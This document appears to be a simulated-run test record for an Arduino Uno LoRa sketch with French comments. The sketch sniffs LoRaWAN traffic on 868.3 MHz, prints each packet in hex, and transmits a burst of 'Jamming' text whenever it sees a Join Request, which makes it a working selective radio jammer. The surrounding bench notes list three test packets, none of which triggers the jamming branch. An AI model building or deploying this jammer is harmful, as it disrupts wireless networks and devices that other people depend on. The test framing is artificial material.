
Simulated run of this sketch. Board: Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. On the bench: the last lines printed to the serial monitor. The test bench sets the inputs (shaded band). No radio packets arrive unless stated.

Above: at 1.2 s.
1.3 s: radio packet "1" arrives
At 2.5 s:

2.8 s: radio packet "0" arrives
At 3.7 s:

4.3 s: radio packet "2" arrives
At 4.8 s:


The sketch:

jamming_selectif_trigger.ino
```cpp
#include <SPI.h>
#include <LoRa.h>

void setup() {
  Serial.begin(9600);
  while (!Serial);

  Serial.println("LoRaWAN Sniffer & Jamming");

  if (!LoRa.begin(868.3E6)) {  // Adapter la fréquence si nécessaire
    Serial.println("Erreur lors de l'initialisation de LoRa !");
    while (1);
  }

  // Configurer les paramètres LoRaWAN
  LoRa.setSpreadingFactor(7);    // SF7
  LoRa.setSignalBandwidth(125E3); // 125 kHz
  LoRa.setCodingRate4(5);        // Coding Rate 4/5

  Serial.println("Sniffer prêt, en attente de paquets...");
}

void loop() {
  int packetSize = LoRa.parsePacket();
  if (packetSize) {
    Serial.println("\nPaquet reçu");

    // Afficher la taille et RSSI
    Serial.print("Taille : ");
    Serial.println(packetSize);
    Serial.print("RSSI : ");
    Serial.println(LoRa.packetRssi());

    // Lire et afficher les données brutes
    uint8_t data[255];
    size_t index = 0;

    Serial.print("Données reçues (hex) : ");
    while (LoRa.available()) {
      uint8_t byte = LoRa.read();
      data[index++] = byte;
      Serial.print(byte < 16 ? "0" : "");
      Serial.print(byte, HEX);
      Serial.print(" ");
    }
    Serial.println();

    // Vérifier si c'est un Join Request (MHDR = 0x00)
    if (index > 0 && data[0] == 0x00) {
      Serial.println("Join Request détectée, activation du brouillage...");

      // Envoi d'un message de brouillage
      LoRa.beginPacket();
      LoRa.print("JammingJammingJammingJammingJammingJammingJammingJamming");
      LoRa.endPacket();

      Serial.println("Brouillage envoyé");
    }
  }
}
```

Measured:
- after the input at 1.3 s, the serial monitor: prints a new line at once (image 1)
- after the input at 2.8 s, the serial monitor: prints a new line at once (image 2)
- after the input at 4.3 s, the serial monitor: prints a new line at once (image 3)
